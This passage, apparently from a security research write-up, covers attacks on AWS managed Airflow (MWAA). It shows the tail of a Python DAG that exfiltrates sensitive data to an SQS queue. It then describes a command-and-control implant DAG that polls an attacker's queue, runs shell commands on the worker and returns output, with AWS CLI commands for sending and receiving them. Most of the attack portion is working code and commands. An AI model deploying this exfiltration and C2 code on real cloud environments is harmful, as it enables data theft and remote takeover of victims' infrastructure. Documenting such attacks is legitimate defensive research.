 ```python
            MessageAttributes={
                'Author': {
                    'DataType': 'String',
                    'StringValue': 'MaliciousDAG'
                }
            }
        )

        print(f"Successfully sent message. Message ID: {response['MessageId']}")
        print("Exfiltration successful.")

    except Exception as e:
        print(f"An error occurred during exfiltration: {e}")
        # In a real scenario, an attacker might add more robust error handling.
        raise

with DAG(
    dag_id="poc_mwaa_sqs_exfiltration",
    start_date=datetime(2023, 1, 1),
    schedule_interval=None,
    catchup=False,
    tags=["security", "poc"],
) as dag:
    exfiltrate_task = PythonOperator(
        task_id="exfiltrate_sensitive_data",
        python_callable=exfiltrate_data_via_sqs,
    )
```

## Proof of Concept (POC) DAG for Command and Control (C2)

The following DAG establishes a persistent implant that polls an attacker's SQS queue for commands, executes them within the MWAA worker environment, and returns the results to another attacker queue.

### Attacker Setup and Interaction

1. **Create Queues:** The attacker creates two SQS queues in their own AWS account:
   * airflow-celery-c2-commands (for sending commands to the implant).
   * airflow-celery-c2-results (for receiving output from the implant).
2. **Deploy DAG:** The attacker uploads the implant DAG to the victim's MWAA environment.
3. **Send Command:** The attacker uses the AWS CLI to send a command to the c2-commands queue.
```bash
aws sqs send-message \
    --queue-url https://sqs.us-east-1.amazonaws.com/123456789012/airflow-celery-c2-commands \
    --message-body "ls -la /"
```

4. **Receive Result:** After the DAG runs, the attacker polls the c2-results queue to get the output.
```bash
aws sqs receive-message \
    --queue-url https://sqs.us-east-1.amazonaws.com/123456789012/airflow-celery-c2-results
```
